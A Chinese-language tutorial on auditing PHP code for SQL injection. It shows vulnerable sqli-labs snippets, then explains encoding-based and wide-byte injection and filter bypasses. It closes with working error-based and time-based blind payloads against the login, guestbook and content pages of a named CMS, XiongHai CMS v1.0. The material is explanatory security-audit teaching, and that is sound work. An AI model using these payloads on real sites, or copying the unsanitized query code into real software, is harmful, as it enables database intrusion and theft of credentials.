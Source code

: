 <!-- TOC -->autoauto- [0x00 简介](#0x00-简介)auto- [0x01 字符型注入](#0x01-字符型注入)auto- [0x02 编码类注入](#0x02-编码类注入)auto- [0x03 宽字节注入](#0x03-宽字节注入)auto- [0x04 过滤](#0x04-过滤)auto- [0x05 实战审计](#0x05-实战审计)autoauto<!-- /TOC -->
# 0x00 简介

为什么第一章我们学习，因为看这篇文章的朋友大概也看过我前面写的MySQL_wiki系列，这里来SQL注入的话我们能方便理解，同时sql注入也是审计中我们经常想要找到的，比较以来就getshell什么的也不现实这种漏洞也不多。

# 0x01 字符型注入

这里我们看到sqli-libs第一关的代码

```
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables 
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);
// connectivity 
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
?>

```
我们可以看到调用`$_GET['id']`获取参数内容，没有经过任何过来带入了SQL语句的查询，也就是代码没有任何过来且没开魔术引号，那么将会形成注入，如果开启魔术引号遇到数字型的我们还是能够注入的，因为`magic_quotes_gpc`只会转义单引号、双引号、反斜线、NULL，但是数字型注入我们可以不试用到这些。

```
http://127.0.0.1/sqli/Less-1/?id=-1%27union%20select%201,user(),3--%20+

```

# 0x02 编码类注入

有些为了业务需要他会把传入一些编码后的参数再解码带入数据库查询，我们常见的有base64编码，也有的程序会内置url解码，这类写法通常见于框架。

1.base64

```
<?php
include("../sql-connections/sql-connect.php");
$id=base64_decode($_GET['id']);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
if ($row) {
    echo "id:".$row['id']."<br>";
    echo "用户名:".$row['username']."<br>";
    echo "密码:".$row['password']."<br>";
}else{
    print_r(mysql_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```
传入的值base64解密后带入查询，这种注入魔术引号是没办法拦截的，当我们遇到网站为base64编码的参数时可以留意下。

```
http://127.0.0.1/sqli/Less-1/base64.php?id=JyB1bmlvbiBzZWxlY3QgMSx1c2VyKCksMyAtLSAr

```
2.urldecode

```
<?php
include("../sql-connections/sql-connect.php");
$id=urldecode($_GET['id']);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
if ($row) {
    echo "id:".$row['id']."<br>";
    echo "用户名:".$row['username']."<br>";
    echo "密码:".$row['password']."<br>";
}else{
    print_r(mysql_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```
因为接受的参数只会被url解码一次，传入的值不是魔术引号认识的值所以可以绕过

```
http://127.0.0.1/sqli/Less-1/base64.php?id=%2527union%20select%201,user(),3--%20+

```

# 0x03 宽字节注入

```
<?php
$conn = mysql_connect('localhost', 'root', 'root');
mysql_select_db("security",$conn);
mysql_query("set names 'gbk' ",$conn);
$id=urldecode($_GET['id']);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
if ($row) {
    echo "id:".$row['id']."<br>";
    echo "用户名:".$row['username']."<br>";
    echo "密码:".$row['password']."<br>";
}else{
    print_r(mysql_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```
网上有很多解释大家可以搜索一下我这里就不详细介绍了大概原因就是:

id=1'->id=1\'->id=1%5c%27

id=1%df'->id=1%df%5c%27->id=1%DF5C%27->id=1運'


当然还有其他各种类型的注入这里就不一一列举了，看了mysql系列文章的大概都知道，不知道的可以看看。

# 0x04 过滤

通常情况下一个成熟的cms是不存在不过滤的情况，一般的程序选择用函数来过滤比如`addslashes()`，也可以开启魔术引号，但是更多的程序它采用正则匹配来过滤，
使用不正确的匹配替换方式反而导致被绕过的机会更大，比如有的程序把`union` 替换为空，那么我们就可以双写`ununionion`绕过从而还可能绕过外部WAF,对于整数型一般采用`intval()`等字符转换，后期通过实战一步一步讲解。

# 0x05 实战审计

找了半天源码，还是用这款熊海CMS V1.0吧，这款CMS感觉不错，什么洞都有，非常适合我们学习审计，同时审计这个cms的文章很多，大家如果觉得我写的不如人意，还能看看别人。

首先我们审计对传入的参数如果想快速的看是否有全局过滤，不妨找个文件输出一下`$_POST`、`$_GET`等等。

```
echo $_POST['b'];
echo $_GET['a'];

```

![file](./img/1.2.1.png)

没有全局过滤 我们来到后台登陆文件admin/files/login.php 看看login.php一般登陆存在注入的可能性还是很大的

![file](./img/1.2.2.png)

很明显 带入查询的user没有经过任何过滤，同时输出了错误，所以可以用报错查询，当然你也选择万能密码。

payload:

```
user=1111' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))-- +&password=111&login=yes

```

![file](./img/1.2.3.png)

在看看留言板 files/submit.php 

![file](./img/1.2.4.png)

传入参数没有过滤

![file](./img/1.2.5.png)

同时插入的时候，这里使用了`mysql_error()`所以可以用报错注入，否则只能使用盲注了。

![file](./img/1.2.6.png)

payload:

```
cid=0&name='or updatexml(1,concat(0x7e,(version())),0) or'&mail=1111&url=http%3A%2F%2F1&content=%E9%98%BF%E5%BE%B7&save=%E6%8F%90%E4%BA%A4&randcode=&jz=1&tz=1
```

开始我们说过不是使用了过滤函数就万事大吉了，数字型注入可以不使用引号

![file](./img/1.2.7.png)

我们看到传入的`cid`已经被`addslashes()`函数转义了，查询的地方都没啥问题，但是到浏览计数的时候调用了它，那么我们就可以使用盲注或者报错注入了，因为有错误回显。

payload：

```
http://127.0.0.1/xhcms/?r=content&cid=1%20and%20If(ascii(substr(database(),1,1))%3C10,0,sleep(10))

```

这个系统还有其他注入，想练手的自己下载审计一下，总体思路有用户交互的地方都有可能存在注入，这也是我们没有通读代码的一个审计思路。

